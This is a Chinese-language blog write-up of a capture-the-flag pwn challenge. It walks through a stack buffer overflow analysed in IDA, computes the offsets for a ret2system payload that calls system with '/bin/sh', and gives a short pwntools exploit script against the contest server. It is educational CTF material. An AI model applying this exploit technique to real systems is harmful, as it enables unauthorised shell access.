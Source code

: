 Title: cnss2017萌新赛writeup:pwn2  
Date: 2017-03-30 01:42:21  
Modified: 2017-03-30 01:42:21  
Tags: ctf,cnss2017萌新赛,pwn  
Slug: cnss2017萌新赛writeup:pwn2  
Summary: cnss2017萌新赛writeup:pwn2  
# 1. 分析
拿到程序后用ida f5反编译，查看`overflow_me`函数  
![](img/1.png)  
如图可看到scanf读入了32个字符并存放到了v1中  
接着查看`overflow_me`的`栈信息`  
![](img/2.png)  
可以看到在读入20个字符后就可以覆盖到返回地址  
(注：读入`0x10`个字符即`16`个字符后便可覆盖到`0`，再读入`4`个字符便可改写程序的`ret地址`)  
用`checksec`检查发现堆栈不可执行，ALSR显然是开启的  
查看函数时发现`callme`  
![](img/3.png)  
其中调用了system函数  
考虑可以通过栈溢出覆盖`overflow_me`的返回地址，使其跳转到system函数，从而拿到shell  
若是这样做，需要将指向`/bin/sh`这个字符串的`地址`作为`system`函数的参数  
在`export`窗口中可以看到，有个名为`shell`的全局变量  
![](img/4.png)  
双击查看后可看到其中存放了一个地址指向`/bin/sh`  
![](img/5.png)  
进而可以得知`/bin/sh`的地址为`0x08048780`  
![](img/6.png)  
考虑构造栈使`0x08048780`作为参数传入`system`函数  
# 2. 构造
构造栈信息可以用2种方法  
## 1. 观察法
首先在`overflow_me`结束后下一个断点  
![](img/7.png)  
执行程序并以`1234567890`作为标记让程序读入，观察其内存信息  
![](img/8.png)  
上图显然可以看出，`v1`的起始地址为`0xFFD02758`  
当前栈顶`esp`为`0xFFD02770`  
由函数调用的堆栈变化显然可以得知，若是将返回地址覆盖为`system`函数即`0x08048537`，则此时的栈顶`0xFFD02770`的值即对应着`system`的参数  
注：若是不明白函数调用的堆栈变化可以看本blog的[先占个坑]()   
将`eip`修改为`0x08048537`，并将`0xFFD02770`的数据修改为`0x08048780`  
![](img/9.png)  
运行可得知已经获得了shell  
![](img/10.png)  
观察内存知`1234567890`到ret的差值为`0x14`，到`0xFFD02770`的差值为`0x18`，只需构造字符串  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
即可  
## 2. 计算法
还是查看`overflow_me`的`栈信息`  
![](img/1.png)  
显然`v1`到ret地址的距离为`0x14`，考虑到程序会直接返回到`call system`，显然在ret地址的后面`4`字节为system的第一个参数  
因此构造  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
# 3. 写poc
直接上代码  
```python
#!/usr/bin/env python
from pwn import *
#program = process('./pwn2')
program = remote('ctf.cnss.studio', 5002)
ow_num = 0x14
ow_str = ''
ow_str += 'a' * ow_num
ow_str += p32(0x08048537)
ow_str += p32(0x08048780)
program.sendline('Y')
program.sendline(ow_str)
program.interactive()
```
注：p32可把地址直接按小端序化为文本  
执行后获得shell  
![](img/11.png)  